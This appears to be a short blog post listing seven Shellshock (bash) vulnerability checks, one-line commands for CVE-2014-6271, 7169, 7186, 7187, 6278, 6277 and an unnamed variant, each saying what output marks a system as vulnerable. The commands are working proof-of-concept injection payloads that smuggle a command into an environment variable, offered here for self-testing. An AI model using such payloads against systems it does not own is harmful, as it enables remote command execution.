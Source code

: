 ```yaml
---
layout: post
title: bash-exp
---
```


### Exploit 1 (CVE-2014-6271)
There are a few different ways to test if your system is vulnerable to shellshock. Try running the following command in a shell.


    env x='() { :;}; echo vulnerable' bash -c "echo this is a test"


If you see "vulnerable" you need to update bash. Otherwise, you should be good to go.


### Exploit 2 (CVE-2014-7169)
Even after upgrading bash you may still be vulnerable to this exploit. Try running the following code.


    env X='() { (shellshocker.net)=>\' bash -c "echo date"; cat echo ; rm -f echo


If the above command outputs the current date (it may also show errors), you are still vulnerable.


### Exploit 3 (???)
Here is another variation of the exploit. Please leave a comment below if you know the CVE of this exploit.


    env -i X=' () { }; echo hello' bash -c 'date'


If the above command outputs "hello", you are vulnerable.


### Exploit 4 (CVE-2014-7186)


    bash -c 'true <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF' || echo "CVE-2014-7186 vulnerable, redir_stack"



### Exploit 5 (CVE-2014-7187)


    (for x in {1..200} ; do echo "for x$x in ; do :"; done; for x in {1..200} ; do echo done ; done) | bash || echo "CVE-2014-7187 vulnerable, word_lineno"

### Exploit 6 （CVE-2014-6278）

    shellshocker='() { echo vulnerable; }' bash -c shellshocker
    
### Exploit 7 （CVE-2014-6277)，测试方法：

    bash -c "f() { x() { _;}; x() { _;} <<a; }" 2>/dev/null || echo vulnerable

[poc:http://shellshock.notsosecure.com](http://shellshock.notsosecure.com)

  
